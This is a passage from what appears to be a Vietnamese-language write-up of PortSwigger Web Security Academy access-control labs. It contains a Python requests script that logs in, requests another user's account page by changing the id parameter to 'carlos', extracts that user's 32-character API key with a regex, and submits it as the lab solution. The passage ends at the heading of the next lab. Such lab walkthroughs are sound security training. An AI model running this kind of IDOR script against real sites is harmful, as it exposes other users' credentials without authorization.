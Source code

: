 ```python=
    url + '/login',
    data=data,
    verify=False,
    allow_redirects=False
)

params = {
    'id': 'carlos',
}

response = requests.get(
    url + '/my-account',
    params=params,
    verify=False,
    allow_redirects=False
)

pattern = r'\b\w{32}\b'
match = re.search(pattern, response.text).group()

data = {
    'answer': match,
}

response = requests.post(
    url + '/submitSolution',
    data=data,
    verify=False,
)

# print(response.text) # hiển thị response có flag
soup = BeautifulSoup(response.text, 'html.parser')
print(soup)
```

![image](https://hackmd.io/_uploads/B1SMcshFT.png)

mục đích của chúng ta là lấy API của carlos đã hoàn thành và mình cũng giải quyết được bài lab này

![image](https://hackmd.io/_uploads/SkX3OjnFp.png)

## 8. Lab: User ID controlled by request parameter with password disclosure

link: https://portswigger.net/web-security/access-control/lab-user-id-controlled-by-request-parameter-with-password-disclosure

### Đề bài

![image](https://hackmd.io/_uploads/rkktqshYT.png)
